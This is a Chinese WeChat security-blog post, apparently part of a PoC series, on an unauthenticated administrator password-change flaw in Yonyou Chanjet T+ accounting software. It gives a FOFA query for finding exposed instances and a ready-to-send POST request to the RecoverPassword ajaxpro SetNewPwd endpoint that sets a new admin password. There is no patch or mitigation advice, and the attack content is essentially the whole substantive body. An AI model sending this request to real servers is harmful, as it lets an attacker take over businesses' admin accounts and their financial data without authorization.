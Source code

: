 #  知识分享5：用友 畅捷通T+ RecoverPassword.aspx 管理员密码修改漏洞

[ 安全攻防渗透 ](javascript:void\(0\);)

**安全攻防渗透** ![]()

微信号 co01fire

功能介绍 信息安全领域原创公号，专注信安领域人才培养和知识分享，致力于帮助叁年以下信安从业者的学习和成长。

____

___发表于_

收录于合集

#用友 17 个

#网络安全 44 个

#漏洞分析 23 个

![]()

点击上方“安全攻防渗透”关注我~

Tips **：用友Web应用漏洞_2** **\- 漏洞描述  -**

用友畅捷通T+ RecoverPassword.aspx存在未授权管理员密码修改漏洞，攻击者可以通过该漏洞修改管理员账号密码登录后台。

 **-  影响范围 -**

用友 畅捷通T+

 ** **\- FOFA  -****  

app="畅捷通-TPlus" **\- 漏洞复现 -**

![]()

 **POC**

  *   *   * 

    
    
     POST /tplus/ajaxpro/RecoverPassword,App_Web_recoverpassword.aspx.cdcab7d2.ashx?method=SetNewPwd  
    {"pwdNew":"46f94c8de14fb36680850768ff1b7f2a"}

‍

 **抓包请求  
**

![]()

 ****end  
 **这就是【知识分享】 **文章系列** 第【5】篇：《用友 畅捷通T+ RecoverPassword.aspx
管理员密码修改漏洞》，如果你觉得本篇写得不错，或者这个系列值得关注，可以表达你的意见！**

 ** **-延伸阅读**** ** **-****

[知识分享：（Hvv行动专题）安全漏洞PoC专题预告](http://mp.weixin.qq.com/s?__biz=Mzg5NjU5NjA3Nw==&mid=2247483926&idx=1&sn=0155ab58b4edf3e5c6224501ce5d327b&chksm=c07fe314f7086a0248513e789f3592916f5e5927f53b45c14105b41d93e610f63d8e5812a3eb&scene=21#wechat_redirect)  
[](http://mp.weixin.qq.com/s?__biz=Mzg5NjU5NjA3Nw==&mid=2247483809&idx=1&sn=30b54e26a575c3057a87eec52d2774a4&chksm=c07fe0a3f70869b58be927c364f82cf70ab16c877c8a2aefdf22ff82184c6974e1168bfcad1c&scene=21#wechat_redirect)

[知识分享1：[CVE-2018-18778]ACME Mini_httpd
任意文件读取漏洞（Web服务器漏洞）](http://mp.weixin.qq.com/s?__biz=Mzg5NjU5NjA3Nw==&mid=2247483926&idx=2&sn=20616e5e03e5ddae7da29f39bdfca57f&chksm=c07fe314f7086a025cc29e513a2bd09282e97f6cc1adf5446fc21998e41935865202c73fffa6&scene=21#wechat_redirect)  

[知识分享2：攻击姿势大全](http://mp.weixin.qq.com/s?__biz=Mzg5NjU5NjA3Nw==&mid=2247483926&idx=4&sn=dab8afa931923f718fb5d88fecd23d30&chksm=c07fe314f7086a0271352e9f5da59569202646bd6c480f73aa91c179eac2a7fa306e8658f838&scene=21#wechat_redirect)

  
[](http://mp.weixin.qq.com/s?__biz=Mzg5NjU5NjA3Nw==&mid=2247483809&idx=1&sn=30b54e26a575c3057a87eec52d2774a4&chksm=c07fe0a3f70869b58be927c364f82cf70ab16c877c8a2aefdf22ff82184c6974e1168bfcad1c&scene=21#wechat_redirect)

  

 ** ** ** **-聆听你的声音**** ** **-********

 ** **         如果你有独到的想法和建议，欢迎私信与我一同分享！****

  

 ** ******

![]()

  

  

  

  

预览时标签不可点

微信扫一扫  
关注该公众号

[知道了](javascript:;)

微信扫一扫  
使用小程序

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

： ， 。   视频 小程序 赞 ，轻点两下取消赞 在看 ，轻点两下取消在看

